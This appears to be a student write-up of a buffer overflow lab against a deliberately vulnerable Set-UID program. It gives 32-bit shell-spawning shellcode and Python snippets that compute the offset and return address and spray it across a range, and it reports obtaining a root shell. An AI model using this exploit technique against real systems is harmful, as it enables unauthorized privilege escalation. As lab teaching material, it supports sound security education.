

# Buffer Overflow Attack Lab (Set-UID Version)

## Task 1: Getting Familiar with Shellcode

Compliling and running the resulting binaries:



We observe that we were able to run both versions of the shellcode and
successfully spawn a shell.

## Task 2: Understanding the Vulnerable Program

Compiling the vulnerable program, making sure to disable StackGuard and
non-executable stack protections:


## Task 3: Launching Attack on 32-bit Program (Level 1)

### Task 3 - Investigation

Using gdb to find the address for ebp and the buffer:


### Task 3 - Attacking

For our shellcode we will be using the 32-bit version, since the vulnerable
binary is also 32-bit:

```python
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')
```

And putting it as far back as possible in our payload, since before the shellcode
starts, all instructions will be filled with NOPs:

```python
start = 517 - len(shellcode)
```

As for the return address, we use the address we previously found for ebp, and
add 0x100 to account for the space for function arguments and the extra stuff
that gdb might add. It is safer to choose a high number since we don't have to
be too precise in this case, because the NOP sled is very big.

```python
ret = 0xffffcad8 + 0x100
```

Lastly, the offset will be the difference between the ebp and the buffer
adresses, plus 4, since we want to write in the address that comes after ebp.
This value comes out to be equal to 112.

```python
offset = 0xffffcad8 - 0xffffca6c + 4
```

Now let's test it!


Success! We get a root shell.

## Task 4: Launching Attack without Knowing Buffer Size (Level 2)

### Task 4 - Investigation

This time, we are not allowed to determine the buffer size with gdb, so we will
only gather information about the ebp address:


### Task 4 - Attacking

Our shellcode will remain the same, since the binary is still 32-bit.
Just need to update the return address to be in line with the newly found ebp
address:

```python
ret = 0xffffcb18 + 0x100
```

However, since we only know that our buffer size is between 100 and 200, we
will just use as the offset all the address between 112 (offset when the buffer
is 100, as we saw in last task) and 212 (112 + 100):

```python
L = 4
for offset in range(112, 212, L):
    content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
```

And once again, we get a root shell:


